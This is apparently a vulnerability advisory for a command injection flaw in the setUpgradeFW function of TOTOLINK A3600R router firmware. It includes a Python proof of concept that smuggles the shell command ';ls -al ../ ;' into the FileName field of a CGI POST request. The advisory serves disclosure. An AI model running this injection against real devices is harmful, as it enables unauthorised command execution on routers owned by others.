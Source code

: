 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a command injection vulnerability in the `setUpgradeFW ` function. The `v8` variable receives the `FileName` parameter from a POST request. However, since the user can control the input of `FileName`, the `sprintf` can cause a command injection vulnerability.

![image-20240721014417007](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721014417007.png)

![image-20240721014424910](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721014424910.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"FileName":";ls -al ../ ;","topicurl":"setUpgradeFW"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
